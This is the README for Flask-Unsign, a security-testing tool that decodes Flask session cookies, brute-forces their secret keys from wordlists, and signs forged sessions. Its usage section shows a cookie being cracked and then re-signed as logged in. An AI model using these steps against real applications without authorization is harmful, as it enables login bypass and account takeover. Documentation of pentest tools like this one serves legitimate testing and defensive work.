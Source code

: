 # Flask Unsign
[![Build Status](https://travis-ci.com/Paradoxis/Flask-Unsign.svg?branch=master)](https://travis-ci.com/Paradoxis/Flask-Unsign)
[![PyPI version](https://badge.fury.io/py/flask-unsign.svg)](https://badge.fury.io/py/flask-unsign)
[![codecov](https://codecov.io/gh/Paradoxis/Flask-Unsign/branch/master/graph/badge.svg)](https://codecov.io/gh/Paradoxis/Flask-Unsign)

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask  application by guessing secret keys.
For the standalone wordlist component, please visit the [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist) repository.

## Requirements
* Python 3.6+

## Installation
To install the application, simply use pip:

```
$ pip3 install flask-unsign[wordlist]
```

If you only want to install the core code, omit the `[wordlist]` suffix:

``` 
$ pip3 install flask-unsign
```

To install the tool for development purposes, run the following command (after downloading a copy):

```
$ pip3 install -e .[test]
```

To install the tool on [BlackArch Linux](https://blackarch.org/):

```bash
pacman -S flask-unsign
```

## Usage

To get an overview of all possible options, simply call flask-unsign without 
any arguments like so:

``` 
$ flask-unsign
```

### Obtaining & Decoding Session Cookies
Due to the fact that Flask cookies are **signed** and **not encrypted**, it's 
possible to locally decode the session data. For this, you can use the `--decode` 
argument.

Session cookies can be obtained by inspecting your HTTP requests using a proxy 
like  Burp Proxy, using your browser's network inspector or using a browser 
extension to view/change your cookies. By default, Flask uses the session name
`"session"`. 

```
$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
{'logged_in': False}
```

You can also use Flask-Unsign's automatic session grabbing functionality by 
passing the `--server` argument, instead of the `--cookie` argument. *Do note 
however, **that not all web pages might return a session**, so be sure to pass an
url which does.*

``` 
$ flask-unsign --decode --server 'https://www.example.com/login'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8
{'logged_in': False}
```

### Unsigning (Brute Forcing Secret Keys)
After obtaining a sample session cookie, you'll be able to attempt to brute-force 
the server's secret key. If you're lucky, this might be set to something easy to 
guess, or if it's been found online, it might be in one of your wordlists. For 
this, you can use the `--unsign` argument.

``` 
$ flask-unsign --unsign --cookie < cookie.txt
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 351 attempts
'CHANGEME'
```

### Signing (Session Manipulation)
Once you've obtained the server's secret key, you'll be able to craft your own 
custom session data. For this, you can use the `--sign` argument.

``` 
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
``` 

## Troubleshooting

* **Installing the program results in an error**
    * You might be using the wrong `pip` binary, try using
      the following command: `python3.6 -m pip install flask-unsign`
* **I found a secret key, but my crafted sessions don't work!**
    * It might be possible that your target server uses an older version of 
      [itsdangerous](https://github.com/pallets/itsdangerous). Due to 
      [an issue](https://github.com/pallets/itsdangerous/issues/46) with timed 
      sessions, the timestamp generation algorithm was changed. 
      To generate an older signature, try using the `--legacy` option.
* **My wordlist doesn't work**
    * Wordlists expect to be newline delimited 
      [python strings](https://docs.python.org/3/library/stdtypes.html#str) 
      (meaning you need to encapsulate them in quotes), this is so that 
      binary strings can easily be stored in a newline format. If you don't want 
      this, you can disable this feature by passing the `--no-literal-eval` 
      argument.


## How it works
If you're wondering how exactly this works, refer to my 
[blog post](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) 
which explains this in great detail, including a guide on how to protect your own server from this attack.

## License
MIT License

Copyright (c) 2021 Luke Paris (Paradoxis)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
